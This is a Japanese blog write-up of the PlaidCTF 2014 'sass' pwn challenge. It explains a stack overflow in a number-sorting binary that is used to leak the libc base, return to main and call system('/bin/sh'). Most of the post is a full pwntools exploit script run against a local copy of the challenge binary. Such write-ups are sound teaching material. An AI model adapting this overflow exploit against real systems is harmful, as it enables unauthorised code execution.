 ```yaml
---
layout: post
redirect_from:
  - /writeup/ctf/2014/plaidctf-2014-sass/
  - /blog/2016/09/15/plaidctf-2014-sass/
date: "2016-09-15T15:43:57+09:00"
tags: [ "competitive", "writeup", "pwn", "plaidctf" ]
"target_url": [ "https://github.com/ctfs/write-ups-2014/tree/master/plaid-ctf-2014/sass" ]
---
```


# Plaid CTF 2014: sass

手元で解いた。
練習用に鯖を建てていたのだが、こちらに投げたら通らず。
stack上の値を眺めながらいい感じにするだけの問題であるので、実質解き直しかつそこまでするほどの楽しさはなく、鯖は放棄した。

## solution

入力された数値($10$や$16$進の諸々の形式をいい感じに読んでくれる)をstackのbufferに積み(正確には$0$で初期化してあるところに足し引き)、(符号付きで)sortし、出力するプログラム。
bofがあって、入力した数値でreturn addressを触れる。
libcのbase addressを得つつreturn-to-mainしてから再度bofでsystemを呼ぶ。
PIEではあるが、`get_pc_thunk.bx`の跡が残っているのでこれに差分を与えてmainのaddressを作ればよい。

``` c++
#!/usr/bin/env python2
from pwn import * # https://pypi.python.org/pypi/pwntools
context.log_level = 'debug'

elf = ELF('./sass')
libc = ELF('/lib/i386-linux-gnu/libc.so.6')
p = process('./sass')

p.recvuntil('Enter your numbers:\n')
for i in range(32):
    p.sendline(str(0x80000000))
p.sendline(str(0))
p.sendline(str(- 0x250))
p.sendline(str(- 11)) # main
p.sendline(str(0x7fffffff + 2))
p.sendline(str(0))
p.sendline(str(0))
p.sendline(str(0x7fffffff + 2))
p.sendline(str(0)) # __libc_start_main
p.sendline(str(0x7fffffff + 3)) # argc
p.sendline(str(0)) # argv
p.sendline(str(0)) # envp
p.sendline()
p.recvuntil('OK, here you are:\n')
for i in range(32):
    assert int(p.recvline(), 16) == 0x80000000
libc_base = int(p.recvline(), 16) - (libc.symbols['__libc_start_main'] + 247)
log.info('libc base: %#x', libc_base)
libc_static = int(p.recvline(), 16)
assert int(p.recvline(), 16) == libc_static
assert int(p.recvline(), 16) == libc_static + 0x3dc
log.info('libc static: %#x', libc_static)
argv = int(p.recvline(), 16)
log.info('argv: %#x', argv)
envp = int(p.recvline(), 16)
log.info('envp: %#x', envp)
program_base = int(p.recvline(), 16)
log.info('program base: %#x', program_base)
assert int(p.recvline(), 16) == program_base + elf.symbols['main']
for i in range(3):
    assert int(p.recvline(), 16) == 0x7fffffff

p.recvuntil('Enter your numbers:\n')
for i in range(32):
    p.sendline(str(0x80000000))
p.sendline(str(- 0x80000000 - libc_static - 0x3dc))
p.sendline(str(- 0x80000000 - argv))
p.sendline(str(- 0x80000000 - envp))
p.sendline(str(- 0x80000000 - program_base))
p.sendline(str((0x7fffffff - libc_base - libc.symbols['system']      ) % 0x100000000))
p.sendline(str((0x7fffffff - libc_base - libc.symbols['system'] - 1  ) % 0x100000000))
p.sendline(str((0x7fffffff - libc_base - next(libc.search('/bin/sh'))) % 0x100000000))
p.sendline()
p.recvuntil('OK, here you are:\n')

time.sleep(1)
p.sendline('id')
p.interactive()
```
